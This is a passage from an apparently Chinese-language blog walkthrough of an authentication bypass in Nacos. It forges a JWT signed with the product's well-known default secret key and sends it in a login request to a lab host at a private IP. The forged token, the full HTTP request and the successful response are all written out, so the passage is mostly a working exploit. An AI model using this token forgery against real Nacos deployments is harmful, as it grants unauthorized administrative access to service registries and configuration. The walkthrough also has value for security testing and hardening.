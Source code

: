 ```
}
```
**Payload: Data：**
```
{
	"sub":"nacos",
	"exp":1754463482
}
```
**Sign JWT: Secret：**
```
SecretKey012345678901234567890123456789012345678901234567890123456789
```
并且选中**base64url**。
时间戳生成网站：
```
https://tool.lu/timestamp/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705154205.png)
生成的Token拿下来：
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc1NDQ2MzQ4Mn0.UG3frNR5f6JY0Np51Hu1cSB1kzRiMS7u50nur01KAeE
```
构造成：
```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc1NDQ2MzQ4Mn0.UG3frNR5f6JY0Np51Hu1cSB1kzRiMS7u50nur01KAeE
```
然后抓取登录的数据包：
```go
POST /nacos/v1/auth/users/login HTTP/1.1
Host: 172.17.16.253:8848
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://172.17.16.253:8848
Connection: keep-alive
Referer: http://172.17.16.253:8848/nacos/index.html
Priority: u=0
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc1NDQ2MzQ4Mn0.UG3frNR5f6JY0Np51Hu1cSB1kzRiMS7u50nur01KAeE

username=admin&password=admin
```

![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250705154105.png)
响应数据包：
```
HTTP/1.1 200 
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Set-Cookie: JSESSIONID=BF703FFD0C4F90F4171EECFA36611CCA; Path=/nacos; HttpOnly
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc1NDQ2MzQ4Mn0.UG3frNR5f6JY0Np51Hu1cSB1kzRiMS7u50nur01KAeE
Content-Type: application/json
Date: Sat, 05 Jul 2025 07:40:16 GMT
Keep-Alive: timeout=60
Connection: keep-alive
Content-Length: 197
```
